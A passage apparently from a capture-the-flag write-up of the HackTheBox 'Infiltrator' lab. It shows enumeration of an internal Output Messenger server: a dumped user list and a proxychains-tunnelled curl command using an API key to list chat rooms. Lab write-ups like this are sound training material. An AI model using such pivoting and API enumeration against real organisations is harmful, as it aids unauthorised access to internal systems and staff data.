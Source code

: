 ```
{"rows":[{"user":"admin","displayname":"Admin","group":"Administration","role":"A","email":"","phone":"","title":"","status":"online"},{"user":"D.anderson","displayname":"D.anderson","group":"Marketing Team","role":"U","email":"anderson@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"L.clark","displayname":"L.clark","group":"Marketing Team","role":"U","email":"clark@infiltrator.htb","phone":"+0 123 443 699","title":"Marketing","status":"offline"},{"user":"M.harris","displayname":"M.harris","group":"Developers","role":"U","email":"harris@infiltrator.htb","phone":"+0 123 443 699","title":"Developer","status":"offline"},{"user":"O.martinez","displayname":"O.martinez","group":"Others","role":"U","email":"martinez@infiltrator.htb","phone":"","title":"Chief Marketing Officer","status":"online"},{"user":"A.walker","displayname":"A.walker","group":"Others","role":"U","email":"walker@infiltrator.htb","phone":"","title":"Co Founder","status":"offline"},{"user":"K.turner","displayname":"K.turner","group":"QA Testers","role":"U","email":"turner@infiltrator.htb","phone":"","title":"QA Tester","status":"offline"},{"user":"E.rodriguez","displayname":"E.rodriguez","group":"Digital Influencer Marketing","role":"U","email":"rodriguez@infiltrator.htb","phone":"+0 123 443 699","title":"Digital Influencer","status":"offline"},{"user":"winrm_svc","displayname":"winrm_svc","group":"Management and Security","role":"U","email":"winrm_svc@infiltrator.htb","phone":"+0 123 443 699","title":"Services Management","status":"online"},{"user":"Developer_01","displayname":"Developer_01","group":"Developers","role":"U","email":"Developer_01@infiltrator.htb","phone":"","title":"Developer","status":"offline"},{"user":"Developer_02","displayname":"Developer_02","group":"Developers","role":"U","email":"Developer_02@infiltrator.htb","phone":"","title":"Developer_02","status":"offline"},{"user":"Developer_03","displayname":"Developer_03","group":"Developers","role":"U","email":"Developer_03@infiltrator.htb","phone":"","title":"Developer_03","status":"offline"}],"success":true}

```

It worked.

#### Rooms

[This page](https://support.outputmessenger.com/chat-room-api/) describes the chat room API. `/api/chatrooms` will get all rooms:

```

oxdf@hacky$ proxychains -q curl -H "API-KEY: 558R501T5I6024Y8JV3B7KOUN1A518GG" localhost:14125/api/chatrooms -s | jq .
{
  "rows": [
    {
      "room": "Chiefs_Marketing_chat",
      "roomusers": "O.martinez|0,A.walker|0"
    },
    {
      "room": "Dev_Chat",
      "roomusers": "Admin|0,M.harris|0,K.turner|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "General_chat",
      "roomusers": "Admin|0,D.anderson|0,L.clark|0,M.harris|0,O.martinez|0,A.walker|0,K.turner|0,E.rodriguez|0,winrm_svc|0,Developer_01|0,Developer_02|0,Developer_03|0"
    },
    {
      "room": "Marketing_Team_chat",
      "roomusers": "D.anderson|0,L.clark|0"
    }
  ],
  "success": true
}

```
